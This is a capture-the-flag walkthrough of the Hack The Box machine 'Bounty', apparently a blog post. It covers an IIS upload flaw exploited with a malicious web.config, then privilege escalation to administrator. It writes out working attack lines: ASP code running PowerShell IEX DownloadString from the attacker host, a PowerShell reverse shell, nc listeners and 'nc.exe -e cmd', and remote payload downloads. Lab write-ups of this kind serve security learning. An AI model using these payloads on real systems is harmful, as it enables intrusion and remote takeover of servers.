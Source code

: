 ```yaml
---
layout: post
title: "Bounty"
date: 2020-02-16 14:55:00 +0000
categories: HTB-Walkthrough
---
```


![bounty](/assets/img/bounty.png)

This is a great box from the HTB 'retired' list.

Diving straight in with nmap then...
`nmap -sV -Pn -v 10.10.10.93 |tee -a boun.txt`

```

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

Not a great deal of choice...

Lets have a closer look.

```

root@kali:~/HTB/retired/bounty# nmap --script=vuln -p80 10.10.10.93
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-26 07:45 EST
Nmap scan report for bounty.htb (10.10.10.93)
Host is up (0.092s latency).

PORT   STATE SERVICE
80/tcp open  http
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-vuln-cve2015-1635:
|   VULNERABLE:
|   Remote Code Execution in HTTP.sys (MS15-034)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2015-1635
|       A remote code execution vulnerability exists in the HTTP protocol stack (HTTP.sys) that is
|       caused when HTTP.sys improperly parses specially crafted HTTP requests. An attacker who
|       successfully exploited this vulnerability could execute arbitrary code in the context of the System accoun>
|
|     Disclosure date: 2015-04-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1635
|_      https://technet.microsoft.com/en-us/library/security/ms15-034.aspx

Nmap done: 1 IP address (1 host up) scanned in 273.70 seconds

```

Forced-browsing with gobuster...

`gobuster -u http://10.10.10.93 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 -x .aspx,.asp,.html`

```

=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.93/
[+] Threads      : 50
[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : aspx,asp,html
[+] Timeout      : 10s
=====================================================
2019/11/13 09:38:51 Starting gobuster
=====================================================
Progress: 15215 / 882244 (1.72%)/transfer.aspx (Status: 200)
/UploadedFiles (Status: 301)
/uploadedFiles (Status: 301)
/uploadedfiles (Status: 301)
=====================================================
2019/11/13 10:13:53 Finished
=====================================================

```

/transfer.aspx is worth looking at closer....

we find that we can only upload web.config files...

we have to create an xml file and call it web.config

```xml

<?xml version="1.0" encoding="UTF-8"?>
<configuration>
       <system.webServer>
              <handlers accessPolicy="Read, Script, Write">
                     <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />        
              </handlers>
              <security>
                     <requestFiltering>
                            <fileExtensions>
                                   <remove fileExtension=".config" />
                            </fileExtensions>
                            <hiddenSegments>
                                   <remove segment="web.config" />
                            </hiddenSegments>
                     </requestFiltering>
              </security>
       </system.webServer>
</configuration>
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c iex(New-Object Net.WebClient).DownloadString('http://10.10.14.19/shell.ps1');")
o = cmd.StdOut.Readall()
Responsse.write(o)
%>

```

If you haven't already, its a good idea to get to know a little xml; particularly in the context of exploiting xmlrpc. It's also important to familiarize yourself with useful powershell commands.
The IEX DownloadString one above is very useful, as is the IWR (Invoke-WebRequest) one. You will find them invaluable when working with Windows targets.


Anyway...the exploit above requires us to host the shell.ps1 file so
get a webserver running.
Incidentally, the shell.ps1 file can be found in /usr/share/webshells...modify it to call us on 4444.
we can do this by appending the following to the file...
`Invoke-PowershellTcp -Reverse -IPAddress 10.10.14.19 -Port 4444`

so...the webserver to serve shell.ps1:

`python3 -m http.server 80`

Also get an nc shell running to catch the resulting reverse-shell connection...
`nc -nlvp 4444`

we get PowerShell command-line as user merlin....and access to the user flag.

```

PS C:\users\merlin\desktop> more user.txt
#  e29xxxxxxxxxxxxxxxxxxxf

```

The laziest way to continue would be to use windows-exploit-suggester.py

get nc.exe onto target..
`IWR -uri http://10.10.14.19/nc.exe -outfile c:\boo\nc.exe`

...then get cli shell...do
`systeminfo`

copy systeminfo to kali file sysinfo.txt

```

root@kali:~/HTB/retired/bounty# python wes.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2020-01-26-mssb.xls
[*] done
root@kali:~/HTB/retired/bounty# python wes.py --database 2020-01-26-mssb.xls --systeminfo sysinfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*]
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5>
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5>
[*]
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Importa>
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Im>
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done

```

select ms10-015 to try escalation...not listed here...but does work...I've used it recently and I've got it readily to hand.

```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.19/priv.exe','C:\boo\priv.exe')"
```

`c:\boo\priv.exe "c:\boo\nc.exe 10.10.14.19 999 -e cmd"`

```

C:\Users\Administrator\Desktop>type root.txt
type root.txt
c8xxxxxxxxxxxxxxxxxxxxea

```

It worked !!! If it had failed, I could have gone down the suggested list trying each, If the machine was patched against those vulnerabilities it would have required closer manual or scripted inspection. 

##################

:)



